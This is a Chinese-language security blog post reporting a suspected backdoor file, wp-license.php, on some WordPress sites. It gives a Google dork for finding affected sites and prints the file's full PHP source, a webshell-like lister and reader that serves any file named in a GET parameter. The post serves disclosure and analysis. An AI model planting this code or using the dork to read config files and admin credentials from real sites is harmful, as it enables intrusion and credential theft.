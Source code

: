 +++
title = "WordPress疑似存在后门 多个网站可直接读取任意文件"
author = "Hzllaga"
date =  2018-08-11
description = "问题出在wp-license.php，不过官方应该是没有发行这个文件的，google搜索结果中某些网站是最新的版本同样存在此文件。"
categories = ["原创"]
tags = ["代码审计","PHP","Wordpress"]
+++
![](https://cdn.wtfsec.org/img/20200223170723.png)

问题出在wp-license.php，不过官方应该是没有发行这个文件的，google搜索结果中某些网站是最新的版本同样存在此文件。<!--more-->

Google Dork:
{{< highlight php >}}
inurl:wp-license.php
{{< /highlight >}}
wp-license.php:
{{< highlight php >}}
<?php
$root = __DIR__;
$style1='color:#000;';
$style2='color:#00a;font-weight:bold;';

function updir($ADir){
	$ADir = substr($ADir, 0, strlen($ADir)-1);
	$ADir = substr($ADir, 0, strrpos($ADir, '/'));
	return $ADir;
}

if ((isset($_GET['file']))) { 

	if (is_file($_GET['file'])) {
		header("Content-type: text/plain");
		readfile($_GET['file']);
		return;
	}
	
	$path = $_GET['file'].'/';

} else $path = $root.'/';

echo($root.'<br>');
echo($path.'<hr>');
echo '<a href="?file='.updir($path).'">..</a><br />';
$p = $path.'*';
foreach (glob($p) as $file) {
	echo '<a style="'.(is_file($file)?$style1:$style2).'" href="?file='.$file.'">'.basename($file).'</a><br />';
}
echo('<hr>');
{{< /highlight >}}
这个文件就像一个简易的webshell，直接访问就能列目录，虽然只能读取不能写入，不过可以直接读取配置文件加后台账号，危害不小。
